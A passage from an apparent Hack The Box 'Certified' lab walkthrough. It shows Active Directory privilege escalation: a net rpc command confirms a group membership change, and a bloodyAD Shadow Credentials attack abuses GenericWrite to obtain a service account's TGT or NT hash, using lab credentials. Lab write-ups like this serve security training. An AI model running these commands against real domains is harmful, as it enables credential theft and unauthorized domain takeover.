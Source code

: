 ![image.png](/assets/images/Certified_HTB/image%2011.png)

To see that we have successfully added into the **management** group.

```bash
net rpc group members "Management" -U "certified.htb"/"judith.mader"%"judith09" -S "DC01"
```

![image.png](/assets/images/Certified_HTB/image%2012.png)

Confirming that we successfully added **judith.mader** to the **management** group.

Now marking **Management** as owned.

### Management@certified.htb → Management_svc@certified.htb

![image.png](/assets/images/Certified_HTB/image%2013.png)

Now from **management** group we have **GenericWrite** on **Management_svc** user.

Exploiting that privilege with bloodyAD, we are using **ShadowCredentials** attack vector to get the TGT or NT hash of the **management_svc** user account.

```bash
bloodyAD -d certified.htb -u 'judith.mader' -p 'judith09' --dc-ip 10.129.231.186 add shadowCredentials 'management_svc'
```

![image.png](/assets/images/Certified_HTB/image%2014.png)

### Management_svc@certified.htb → ca_operator@certified.htb

![image.png](/assets/images/Certified_HTB/image%2015.png)
